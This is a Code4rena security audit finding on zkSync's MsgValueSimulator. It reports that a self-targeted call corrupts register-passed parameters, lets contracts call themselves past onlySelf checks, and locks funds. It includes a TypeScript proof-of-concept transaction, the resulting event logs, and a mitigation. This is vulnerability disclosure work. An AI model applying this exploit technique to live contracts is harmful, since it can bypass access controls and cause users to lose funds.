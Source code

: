## Tags

- bug
- 3 (High Risk)
- satisfactory
- selected for report
- sponsor disputed
- upgraded by judge
- H-01

# [The call to MsgValueSimulator with non zero msg.value will call to sender itself which will bypass the onlySelf check](https://github.com/code-423n4/2023-03-zksync-findings/issues/153) 

# Lines of code

https://github.com/code-423n4/2023-03-zksync/blob/main/contracts/MsgValueSimulator.sol#L22-L63


# Vulnerability details

## Impact
First, I need to clarify, there may be more serious ways to exploit this issue. Due to the lack of time and documents, I cannot complete further exploit. The current exploit has only achieved the impact in the title. I will expand the possibility of further exploit in the poc chapter.

The call to MsgValueSimulator with non zero msg.value will call to sender itself with the msg.data. It means that if you can make a contract or a custom account call to specified address with non zero msg.value (that's very common in withdrawal functions and smart contract wallets), you can make the contract/account call itself. And if you can also control the calldata, you can make the contract/account call its functions by itself.

It will bypass some security check with the msg.sender, or break the accounting logic of some contracts which use the msg.sender as account name.

For example the `onlySelf` modifier in the ContractDepolyer contract:
```
modifier onlySelf() {
    require(msg.sender == address(this), "Callable only by self");
    _;
}
```

## Proof of Concept
The `MsgValueSimulator` use the `mimicCall` to forward the original call.
```
return EfficientCall.mimicCall(gasleft(), to, _data, msg.sender, false, isSystemCall);
```

And if the `to` address is the `MsgValueSimulator` address, it will go back to the `MsgValueSimulator.fallback` function again. 

The fallback function will  Extract the `value` to send, isSystemCall flag and the `to` address from the extraAbi params(r3,r4,r5) in the `_getAbiParams` function. But it's different from the first call to the `MsgValueSimulator`. The account uses `EfficientCall.rawCall` function to call the `MsgValueSimulator.fallback` in the first call. For example, code in `DefaultAccount._execute`:
```
bool success = EfficientCall.rawCall(gas, to, value, data);
```

The rawCall will simulate `system_call_byref` opcode to call the `MsgValueSimulator`. And the `system_call_byref` will write the r3-r5 registers which are read as the above extraAbi params. 

But the second call is sent by `EfficientCall.mimicCall`, as the return value explained in the document https://github.com/code-423n4/2023-03-zksync/blob/main/docs/VM-specific_v1.3.0_opcodes_simulation.pdf, `mimicCall` will mess up the registers and will use r1-r4 for standard ABI convention and r5 for the extra who_to_mimic arg. So extraAbi params(r3-r5) read by `_getAbiParams` will be messy data. It can lead to very serious consequences, because the r3 will be used as the msg.value, and the r4 will be used as the `to` address in the final `mimicCall`. It means that the contract will send a different(greater) value to a different address, which is unexpected in the original call.

I really don't know how to write a complex test to verify register changes in the era-compiler-tester. So to find out how to control the registers, I use the repo https://github.com/matter-labs/zksync-era and replace the etc/system-contracts/ codes with the lastest version in the contest, and write a integration test.
```
import { TestMaster } from '../src/index';
import * as zksync from 'zksync-web3';
import { BigNumber } from 'ethers';

describe('ETH token checks', () => {
    let testMaster: TestMaster;
    let alice: zksync.Wallet;
    let bob: zksync.Wallet;

    beforeAll(() => {
        testMaster = TestMaster.getInstance(__filename);
        alice = testMaster.mainAccount();
        bob = testMaster.newEmptyAccount();
    });

    test('Can perform a transfer (legacy)', async () => {
        const LEGACY_TX_TYPE = 0;
        const value = BigNumber.from(30000);
        
        const MSG_VALUE_SYSTEM_CONTRACT = "0x0000000000000000000000000000000000008009";
        console.log(await alice.getBalance());
        console.log(await alice.provider.getBalance(MSG_VALUE_SYSTEM_CONTRACT));

        let block = await alice.provider.getBlock("latest");
        console.log("block gas limit", block.gasLimit);
        let tx_gasLimit = block.gasLimit.div(8);
        console.log("tx_gasLimit", tx_gasLimit);
        console.log("gas price", await alice.getGasPrice());

        try {
            let tx = await alice.sendTransaction({ type: LEGACY_TX_TYPE, to: MSG_VALUE_SYSTEM_CONTRACT, value , gasLimit: tx_gasLimit, data: '0x'});
            let txp = await tx.wait();
            console.log("success");
            console.log(txp["logs"]);
        } catch (err ) {
            console.log("fail");
            console.log(err);
            console.log('--------');
            console.log(err["receipt"]["logs"]);
        }
        
        console.log(await alice.getBalance());
        console.log(await alice.provider.getBalance(MSG_VALUE_SYSTEM_CONTRACT));
        console.log(await alice.getNonce());
    });

    afterAll(async () => {
        await testMaster.deinitialize();
    });
});

```
The L2EthToken Transfer event logs:
```
    {
        transactionIndex: 0,
        blockNumber: 25,
        transactionHash: '0x997b6536c802620e56f8c1b54a0bd3092dfe3dde457f91ca75ec07740c82fde1',
        address: '0x000000000000000000000000000000000000800A',
        topics: [
          '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
          '0x0000000000000000000000006a8b37bcf2decff1452fccedc1452257d016b5c4',
          '0x0000000000000000000000000000000000000000000000000000000000008009'
        ],
        data: '0x0000000000000000000000000000000000000000000000000000000000007530',
        logIndex: 1,
        blockHash: '0xafb60d1285fc9ac08db01b02df01f6cbb668918d98f1b9254ed150a95957ba75'
      },
      {
        transactionIndex: 0,
        blockNumber: 25,
        transactionHash: '0x997b6536c802620e56f8c1b54a0bd3092dfe3dde457f91ca75ec07740c82fde1',
        address: '0x000000000000000000000000000000000000800A',
        topics: [
          '0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef',
          '0x0000000000000000000000006a8b37bcf2decff1452fccedc1452257d016b5c4',
          '0x0000000000000000000000006a8b37bcf2decff1452fccedc1452257d016b5c4'
        ],
        data: '0x00000000000000000000000000000000000000000002129c0000000a00000000',
        logIndex: 2,
        blockHash: '0xafb60d1285fc9ac08db01b02df01f6cbb668918d98f1b9254ed150a95957ba75'
      }
```
There are two l2 eth token transaction in addition to gas processing. And the value sent to the `MsgValueSimulator` will stuck in the contract forever.

I found that the r4(to) is always msg.sender, the r5(mask) is always 0x1, and if the length of the calldata is 0, the r3(value) will be `0x2129c0000000a00000000`, and if the length > 0, r3(value) will be `0x215800000000a00000000 + calldata.length << 96`. So in this case, the balance of the sender should be at least 0x2129c0000000a00000000 wei to finish the whole transaction whitout reverting.

I did not find any document about the `standard ABI convention` mentioned in the VM-specific_v1.3.0_opcodes_simulation.pdf and the r5 is also not really the extra who_to_mimic arg. I didn't make a more serious exploit due to lack of time. I'd like more documentation about register call conventions to verify the possibility of manipulating registers.

## Tools Used
Manual review
## Recommended Mitigation Steps
Check the `to` address in the `MsgValueSimulator` contract.  The `to` address must not be the `MsgValueSimulator` address.